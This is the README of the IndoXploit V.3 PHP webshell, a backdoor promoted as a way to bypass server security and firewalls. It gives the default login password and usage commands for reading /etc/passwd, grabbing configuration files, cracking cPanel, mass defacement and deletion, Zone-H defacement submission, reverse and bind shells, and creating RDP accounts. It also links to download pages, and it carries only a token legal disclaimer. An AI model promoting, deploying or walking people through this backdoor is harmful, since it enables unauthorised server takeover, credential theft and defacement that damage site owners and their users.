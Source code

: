 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by [**agussetyar**](https://github.com/agussetyar) from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

**Usage of indoxploit shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program**

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - ***Read File***
~~~
 usage: rf [filename]
 example: rf /etc/passwd
~~~

 - Spawn File/Tools 
 ~~~
 usage: spawn [name]
~~~

[name]
- Adminer (adminer)
- WebConsole (webconsole)
- CGI Telnet 1 (cgitelnet1)
- CGI Telnet 2 (cgitelnet2)
- PHPINFO (phpinfo)

 example:
~~~
 spawn adminer
 spawn webconsole
 spawn cgitelnet1
~~~

- ***Jumping***
~~~
usage: jumping
~~~

- ***Config Grabber***
~~~
usage: idxconfig
~~~

 - ***Symlink***
 ~~~
 usage: symlink
~~~

 - ***Reverse Shell***
 
***[Back Connect]***
~~~
usage: rvr bc [IP] [PORT] [TYPE]
~~~
Example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
~~~
usage: rvr bp [PORT] [TYPE]
~~~
Example:
~~~
rvr bp 1337 perl
~~~

 - ***KRDP - Create RDP Account (for windows server only)***
 ~~~
 usage: krdp
~~~
 - ***Logout From Shell***
 ~~~
 usage: logout
~~~
 - ***Kill Backdoor***
~~~
usage: killme
~~~

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

## Article
- [Download Shell Backdoor IndoXploit V.3](https://exploit.linuxsec.org/download-shell-backdoor-indoxploit-v-3/)
- [Download Shell backdoor Indoxploit V.2](https://exploit.linuxsec.org/shell-indoxploit-v2-dirilis/)
- [Download IndoXploit WebShell First Edition](https://exploit.linuxsec.org/indoxploit-shell-v1/)

## Disclaimer
Note: modifications, changes, or changes to this code can be accepted, however, every public release that uses this code must be approved by writing this tool (indoxploit team)

